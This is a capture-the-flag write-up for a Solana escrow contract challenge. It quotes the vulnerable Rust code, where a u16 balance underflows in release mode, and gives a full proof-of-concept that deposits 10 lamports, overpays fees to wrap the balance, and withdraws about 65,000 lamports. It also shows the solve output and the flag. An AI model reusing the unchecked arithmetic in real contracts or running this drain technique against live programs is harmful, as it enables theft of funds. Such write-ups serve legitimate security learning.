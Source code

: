 ```yaml
---
description: WEB3 | 453 pts - 13 solves
---
```


## Utility Payment Service

>Description: Utility payment service. Deposit into your escrow account and make payments from the escrow. I was told it's a magic account. https://drive.google.com/file/d/1YVrLoB9V4K5BpVSBeVOL6W9dObQ71fEF/view?usp=sharing. 
>nc 43.154.34.214 8001

The contract was a simple Escrow Service that allows you to make payments. The challenge was divided into two components: server and solve folders. inside the first dir we had the entire source code of the contract, in the `solve` dir there was everything necessary to run the exploit.
Inside `solve/src` the exploit had to be written in rust, then we have to run `python solve.py` which will compile our contract exploit and send it to the chall server.
Moving on to the challenge analysis, we had 3 main functions available: 
- Deposit to escrow 
- Withdraw all balance in escrow 
- Pay utility service fees. 
What caught my attention was the `amount: u16`  parameter in the `deposit_escrow()` and `pay_utility_fees()` functions while our balance in initialization was defined as `u64`:

program/src/processor.rs:
```rust
fn pay_utility_fees(program: &Pubkey, accounts: &[AccountInfo], amount: u16) -> ProgramResult {

[...]
    let base_fee = 15_u16;
    if escrow_data.amount >= 10 {
        if amount < base_fee {
            escrow_data.amount -= base_fee;
        } else {
            assert!(escrow_data.amount >= amount);
            escrow_data.amount -= amount;
        }
    } else {
        msg!("ABORT: Cannot make payments when the escrow account has a balance less than 10 lamports.");
    }
[...]
}
```

server/src/main.rs:
```rust
const TARGET_AMT: u64 = 60_000;
const INIT_BAL: u64 = 50;
const RESERVE_BAL: u64 = 1_000_000;
``` 

Clearly something was off. Looking for integer undeflow/overflow for Solana smart contracts written in rust, I discovered that, in optimization mode, Rust doesn't make any checks:

>In debug mode, Rust adds built-in checks for overflow/underflow and panics when an overflow/underflow occurs at runtime. However, in release (or optimization) mode, Rust **silently ignores** this behavior by default and computes _two’s complement wrapping (e.g., 255+1 becomes 0 for_ an `u8` integer).

So if you want to do certain subtractions securely you should do it with `checked_sub()`  func or by turning on the `overflow-checks` in release mode by setting `overflow-checks = true` under `[profile.release]`. 
Note that actually, checks are made in `pay_utility_fees()` : if `amount > 15`, it makes sure that there's enough balance in escrow. However we can easily bypass that by calling multiple times the function with `amount < 15`.

Exploit scenario:
1) Perry deposit 10 lamports out of 50 (init balance) to escrow account.
2) Now Perry has 40 lamports on balance and 10 lamports in escrow account.
3) Perry calls `pay_utility_fees()` with `amount = 10` that deducts the tokens from the escrow account. Balance is = 0 now. Calling the function again, balance will underflow by -10, which will be converted to ~65526 lamports.
4) Perry withdraw all the ~65526 lamports with `withdraw_escrow()`.
5) We have successfully exploited the contract as we now have Balance > Target amount (60k lamports).
6) Catch the flag!

PoC:
solve/src/processor.rs:
```rust
use borsh::BorshSerialize;

use solana_program::{
    account_info::{next_account_info, AccountInfo},
    entrypoint::ProgramResult,
    instruction::{AccountMeta, Instruction},
    program::invoke,
    pubkey::Pubkey,
    system_program,
};

use utility_payment::{ServiceInstruction, deposit_escrow, withdraw_escrow, pay_utility_fees};

pub fn process_instruction(
    _program: &Pubkey,
    accounts: &[AccountInfo],
    _data: &[u8],
) -> ProgramResult {
    let account_iter = &mut accounts.iter();
    let utility_program = next_account_info(account_iter)?;
    let user = next_account_info(account_iter)?;
    let reserve = next_account_info(account_iter)?;
    let escrow_account = next_account_info(account_iter)?;
    let sys_prog_account = next_account_info(account_iter)?;

    invoke(
        &Instruction {
            program_id: *utility_program.key,
            accounts: vec![
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*reserve.key, false),
                AccountMeta::new(*escrow_account.key, false),
                AccountMeta::new_readonly(system_program::id(), false),
            ],
            data: ServiceInstruction::Init { }
                .try_to_vec()
                .unwrap(),
        },
        &[
            reserve.clone(),
            escrow_account.clone(),
            user.clone(),
            sys_prog_account.clone(),
        ],
    )?;
    
    // EXPLOIT
    invoke(
        &(
            deposit_escrow(
                *utility_program.key, 
                *user.key,
                *reserve.key, 
                *escrow_account.key, 
                10)
        ), 
        &[
        reserve.clone(),
        escrow_account.clone(),
        user.clone(),
        ]
    )?;

    for _ in 1..3 {
        invoke(
            &(
                pay_utility_fees(
                    *utility_program.key,
                    *user.key,
                    *reserve.key,
                    *escrow_account.key,
                    10)
            ), 
            &[
            reserve.clone(),
            escrow_account.clone(),
            user.clone(),
            ]
        )?;
    }

    invoke(
        &(
            withdraw_escrow(
                *utility_program.key,
                *user.key,
                *reserve.key,
                *escrow_account.key)
        ), 
        &[
        reserve.clone(),
        escrow_account.clone(),
        user.clone(),
        ]
    )?;

    Ok(())
}
```

```shell
└─$ python solve.py HOST=43.154.34.214 PORT=8001 
cargo build-bpf
    Finished release [optimized] target(s) in 0.33s

cp ./target/deploy/utility_payment_solve.so .
[+] Opening connection to 43.154.34.214 on port 8001: Done

program: 6PHpa8eKa2vPssoLGasKCPRSvpjqrStU33ikSLBAUHRa
solve  : CYzKRYDyZbnoHuyzYv339T2p2qm4boWs5NKTixRx84xu
user   : AhvmMNAZsPGYGwtZbdnvvVDYemd3ZhaqevSHsHw3kmTa

user lamport before = 50
user lamport after = 65555

Flag: 
n1ctf{cashback_9dejko3vrpaxq8gsy6iu}

[*] Closed connection to 43.154.34.214 port 8001
```

> n1ctf{cashback_9dejko3vrpaxq8gsy6iu}